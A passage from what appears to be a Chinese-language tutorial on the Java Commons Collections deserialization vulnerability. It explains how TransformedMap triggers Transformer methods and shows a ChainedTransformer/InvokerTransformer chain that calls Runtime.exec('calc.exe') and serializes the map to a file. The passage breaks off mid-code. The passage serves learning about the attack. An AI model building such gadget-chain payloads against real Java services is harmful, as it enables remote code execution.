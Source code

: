```java
            @Override
            public String transform(String key) {
                return "key-" + key;
            }
        };

        Transformer<String, String> valueTransformer = new Transformer<String, String>() {
            @Override
            public String transform(String value) {
                return "value-" + value;
            }
        };
        */
        Transformer<String, String> keyTransformer = key -> "key-" + key;
        Transformer<String, String> valueTransformer = value -> "value-" + value;

        // 使用 TransformedMap 装饰原始的 Map
        // 执行了Transformer实现类的transform方法
        Map<String, String> transformedMap = TransformedMap.transformingMap(
                originalMap, keyTransformer, valueTransformer);

        // 插入数据
        transformedMap.put("1", "one");
        transformedMap.put("2", "two");

        // 打印 transformedMap
        System.out.println("Transformed Map: " + transformedMap);

        // 打印 originalMap
        System.out.println("Original Map: " + originalMap);

        // 访问数据
        System.out.println("Value for key '1': " + transformedMap.get("1"));
    }
}
```

所以现在理解`Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);`，innerMap是我们要装饰的原始innerMap，而transformerChain是Transformer实现类，我们在进行outerMap.put("test", "xxxx");时调用它的transform方法。

#### 不是真正POC的原因

先前例子中,我们手工执行outerMap.put("test", "xxxx")触发了反序列化漏洞,但是在正常的反序列化漏洞利用场景中,序列化对象只是一个类,即:

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.getRuntime()),
        new InvokerTransformer("exec", new Class[]{String.class},
                new Object[]
                        {"calc.exe"}),
};

Transformer transformerChain = new
        ChainedTransformer(transformers);

Map innerMap = new HashMap();
Map outerMap = TransformedMap.decorate(innerMap, null,
        transformerChain);

// 序列化对象
try (FileOutputStream fos = new FileOutputStream("outerMap.ser");
             ObjectOutputStream oos = new ObjectOutputStream(fos)) {
    oos.writeObject(outerMap);
    System.out.println("Person 对象已经被序列化到 outerMap.ser 文件");
} catch (IOException e) {
```